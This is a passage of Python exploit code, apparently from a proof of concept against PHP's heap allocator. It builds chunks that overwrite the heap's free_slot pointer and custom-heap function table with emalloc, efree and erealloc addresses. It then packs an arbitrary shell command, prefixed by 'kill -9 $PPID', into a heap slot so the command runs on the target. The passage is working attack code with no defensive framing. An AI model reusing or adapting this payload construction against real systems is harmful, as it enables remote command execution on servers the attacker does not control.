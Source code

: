 ```python
        step4 = compressed_bucket(step4)

        # This chunk will eventually overwrite mm_heap->free_slot
        # it is actually allocated 0x10 bytes BEFORE it, thus the two filler values
        step4_pwn = ptr_bucket(
            0x200000,
            0,
            # free_slot
            0,
            0,
            ADDR_CUSTOM_HEAP,  # 0x18
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            ADDR_HEAP,  # 0x140
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            size=CS,
        )

        step4_custom_heap = ptr_bucket(
            ADDR_EMALLOC, ADDR_EFREE, ADDR_EREALLOC, size=0x18
        )

        step4_use_custom_heap_size = 0x140

        COMMAND = self.command
        COMMAND = f"kill -9 $PPID; {COMMAND}"
        if self.sleep:
            COMMAND = f"sleep {self.sleep}; {COMMAND}"
        COMMAND = COMMAND.encode() + b"\x00"

        assert (
            len(COMMAND) <= step4_use_custom_heap_size
        ), f"Command too big ({len(COMMAND)}), it must be strictly inferior to {hex(step4_use_custom_heap_size)}"
        COMMAND = COMMAND.ljust(step4_use_custom_heap_size, b"\x00")

        step4_use_custom_heap = COMMAND
        step4_use_custom_heap = qpe(step4_use_custom_heap)
        step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
        step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
```